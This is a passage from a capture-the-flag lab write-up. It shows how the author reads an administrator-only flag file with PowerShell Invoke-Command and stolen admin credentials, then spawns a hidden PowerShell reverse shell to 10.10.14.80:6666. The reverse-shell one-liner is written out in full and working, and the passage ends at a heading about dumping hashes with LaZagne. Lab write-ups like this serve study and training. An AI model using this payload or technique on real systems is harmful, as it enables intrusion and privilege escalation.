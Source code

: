     -   {{< figure src="/ox-hugo/2024-12-24-123652_.png" >}}
    -   The error occurs because the FileSystem provider in PowerShell does not support passing credentials directly when accessing files using commands like `cat` (alias for `Get-Content`). Instead I need to modify the command:
        -   Commands like `Get-Content` or `cat` directly interact with the file system in **the current user's context**. The FileSystem provider **does not support credentials for local file access**.
        -   Simply specifying `-Credential` without creating a new session (or drive mapping) has no effect for these commands because local file access relies **on the caller's current security context**.

-   **I can however read it another way by running a subscript as that user**:
    ```powershell
    Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { Get-Content -Path "C:\Users\Administrator\Desktop\root.txt"}
    ```

    -   **Why this works**:
        -   `Invoke-Command`:
            -   Spawns a session under the specified credentials. (the ones I provide)
            -   The command inside the `-ScriptBlock` executes in that session.
        -   **Subcommand** (e.g., `Get-Content`):
            -   Runs as if it were invoked directly by the impersonated user, bloodstiller.
            -   Can access files and resources that the current user cannot.

-   **In action**:
    -   {{< figure src="/ox-hugo/2024-12-24-125013_.png" >}}

        1.  I can see I am the user `Phoebe`
        2.  I run the command to read the file in the context of my admin user `bloodstiller` which is successful and returns the flag (as this user is part of the admin group.)
        3.  I try and read it in the context of `Phoebe` which is denied due not sufficient permissions.

        +Note+: The blurred parts are just empty lines I included to make the output easier to read.

-   I can then start a reverse shell in the context of the user `bloodstiller`.
    ```powershell
    Start-Process powershell -Credential $cred -ArgumentList '-NoP -NonI -W Hidden -Exec Bypass -Command "& { $client = New-Object System.Net.Sockets.TCPClient(\"10.10.14.80\",6666); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535 | % {0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) { $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i); $sendback = (iex $data 2>&1 | Out-String); $sendback2 = $sendback + \"PS \" + (pwd).Path + \"> \"; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush(); }; $client.Close(); }"'
    ```

    -   {{< figure src="/ox-hugo/2024-12-24-131715_.png" >}}
        -   I can see that the user is `Phoebe`, but I get our shell in the context of the user `bloodstiller` who is in the administrators group as I passed it our credentials via the credentialed object.


## 4. Persistence: {#4-dot-persistence}


### Dumping Admin Hash with LaZagne.exe: {#dumping-admin-hash-with-lazagne-dot-exe}
